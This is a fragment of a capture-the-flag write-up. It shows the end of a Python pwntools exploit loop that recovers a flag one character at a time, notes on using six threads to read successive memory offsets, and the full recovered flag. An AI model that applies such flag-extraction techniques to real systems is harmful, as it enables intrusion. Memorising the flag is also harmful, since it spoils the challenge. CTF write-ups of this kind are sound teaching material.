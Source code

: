                 break
            # raw_input()
            r.close()

        shift_count += 1
        flag += chr(guess)
    print(flag)
    r.interactive()
    ```
    :::
* <font color="FF0000">Note that</font>: I create 6 multi-threads to execute the exploit program simultaneously with a little bit difference
1st thread: `mov rax, [r10]`            output:FLAG{pia
2nd thread: `mov rax, [r10+0x8]`        output:no_d113f
3rd thread: `mov rax, [r10+0x10]`        output:1c3f9ed8
4th thread: `mov rax, [r10+0x18]`        output:019288f4
5th thread: `mov rax, [r10+0x20]`        output:e8ddecfb
6th thread: `mov rax, [r10+0x28]`        output:8ec}
FLAG{piano_d113f1c3f9ed8019288f4e8ddecfb8ec}

## Reference
[linux 中mmap的用法](https://www.cnblogs.com/bittorrent/p/3267736.html)